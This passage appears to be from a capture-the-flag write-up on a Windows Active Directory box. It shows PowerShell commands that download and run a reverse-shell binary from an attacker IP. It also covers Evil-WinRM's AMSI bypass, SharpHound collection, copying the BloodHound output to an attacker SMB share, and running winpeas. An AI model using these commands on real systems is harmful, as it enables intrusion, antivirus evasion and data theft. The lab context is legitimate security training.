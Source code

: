 Now download and execute:

```powershell
iwr "http://10.10.14.8/rsh.exe" -out C:\Users\melanie\Documents\rsh.exe
C:\Users\melanie\Documents\rsh.exe
```

And we finally get our shell!

Lol, I just remembered [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) has commands built in that help with downloading files and bypassing AMSI. Here are the most useful ones:

- `upload LOCAL_FILE [REMOTE_DEST]` - upload file from kali to victim
- `download REMOTE_FILE [LOCAL_DEST]` - download file from victim to kali
- `menu` - show all commands, including PowerShell commands that help with AV evasion
- `Bypass-4MSI` - attempt to automatically bypass AMSI

But I played around with the `upload` command, and it seemed to be buggy. I tried downloading `SharpHound.ps1`, but it seemed to be corrupting the file. When I went back to using the PowerShell `iwr` cmdlet, everything worked.

Now back to work. Since this is an Active Directory box, I'm going to look at Bloodhound for privesc.

```powershell
powershell -ep bypass
iwr http://10.10.14.8/SharpHound.ps1 -out sharphound.ps1
. .\sharphound.ps1
Invoke-Bloodhound -CollectionMethods All -CollectAllProperties
```

And transfer the file using SMB:

```sh
# start SMB server
❯ impacket-smbserver -smb2support -user derp -password herpderp share .

# get SMB session, use phony domain to let it connect
net use \\10.10.14.8 /user:x\derp herpderp

# copy file over
copy 20230709073309_BloodHound.zip \\10.10.14.8\share
```

Reviewing the Bloodhound output, nothing jumped out at me as a path to own the domain. Melanie has very limited permissions, and I didn't see another way besides owning the box. Going to look into winpeas:

```powershell
iwr http://10.10.14.8/winpeas.exe -out winpeas.exe
.\winpeas.exe

# no AV detected... weird?
# nothing else found
```

Hmm. Winpeas didn't find anything useful. Poking around the file system didn't see anything useful either.
